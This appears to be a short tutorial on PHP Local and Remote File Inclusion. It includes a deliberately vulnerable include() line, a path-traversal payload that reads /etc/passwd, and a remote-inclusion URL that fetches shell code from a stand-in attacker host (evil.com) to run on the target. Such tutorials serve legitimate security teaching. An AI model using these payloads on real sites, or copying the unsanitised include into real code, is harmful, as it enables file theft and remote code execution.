


# Local File 

The vulnerability is easier to understand if we look at a simple section of PHP code.

    http://target.site/index.php?location=IT

and that the PHP code handles the parameter as follows:

    include ("loc/".$_GET['location']);

As you can see, we can enter any valid local path-to-file to have the PHP include it in the response to our browser:

    index.php?location=../../../etc/passwd

This will go up 3 directories and then return the famous Unix password file.

**Hint** : add enough ( . . / ) to reach the root folder. 

 

# Remote File

Remote File Inclusion (RFI) works in the same way as LFI; the only difference is that the file to be included is pulled remotely.

Our aim, in this case, is not just to read, but to include our own code in the execution. An exploitable URL would look like this:

    vuln.php?page=http://evil.com/shell.txt

In this case, **shell.txt**  (containing PHP code) will be included in the page and executed.

### Important

It is important to know that the file included must not have the **.php**  extension; otherwise, the code within the included file will run on the attacker machine, instead of the target web application.

### Example

Target machine is a **Linux machine**

Attacker machine is a **Windows machine**

we will use **test.php & test.txt** and both have the same code.

    phpinfo();

The image shows info of the target machine using the **.txt** extension.

The image shows info of the attacker machine using the **.php** extension.

To immediately spot a vulnerable parameter, you can just inject

    vuln.php?page=http://www.google.com

If it is vulnerable, the HTML code of  **google.com** should be injected into the vulnerable page.